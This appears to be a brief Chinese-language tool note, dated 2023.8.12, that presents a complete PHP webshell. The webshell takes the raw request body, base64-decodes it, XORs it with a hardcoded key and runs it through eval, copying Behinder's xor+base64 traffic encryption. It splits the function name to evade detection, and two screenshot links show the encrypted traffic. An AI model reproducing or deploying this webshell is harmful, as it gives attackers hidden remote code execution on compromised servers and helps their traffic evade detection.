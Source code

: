 # 2023.8.12

1. 参考冰蝎xor+base64加密方式。来加密流量



### webshell

```
<?php

function Decrypt($data)
{
    $key="e45e329feb5d925b"; 
    $bs="base64_"."decode";
	$after=$bs($data."");
	for($i=0;$i<strlen($after);$i++) {
    	$after[$i] = $after[$i]^$key[$i+1&15]; 
    }
    return $after;
}
eval(Decrypt(file_get_contents("php://input")));

?>
```



### 加密效果

![image-20230812222228181](https://github.com/wy876/tools/blob/master/img/image-20230812222228181.png?raw=true)

![image-20230812222254773](https://github.com/wy876/tools/blob/master/img/image-20230812222254773.png?raw=true)



